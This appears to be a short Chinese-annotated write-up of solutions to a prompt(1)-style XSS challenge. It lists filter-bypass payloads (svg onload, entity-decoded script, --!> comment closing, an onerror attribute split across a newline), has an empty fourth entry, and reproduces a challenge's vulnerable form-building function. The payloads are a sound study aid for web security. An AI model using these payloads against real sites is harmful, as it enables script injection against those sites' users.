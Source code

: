 ### 1
```
<svg/onload=prompt(1)
// 后面还有一个空格
```

### 2
```
<svg><script>prompt&#x28;1)</script>    // 先进行xml解析，使得$#40;变成(
<script>eval.call`${'prompt\x281)'}`</script>
```

### 3
```
--!><script>prompt(1)</script>
在HTML5中不仅可以用-->来闭合注释，还可以用--!>
```



### 4
```
```

### 5
```
"type=image src onerror
="prompt(1)
```
利用type定义为image，在利用换行绕过过滤规则

### 6
```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}
```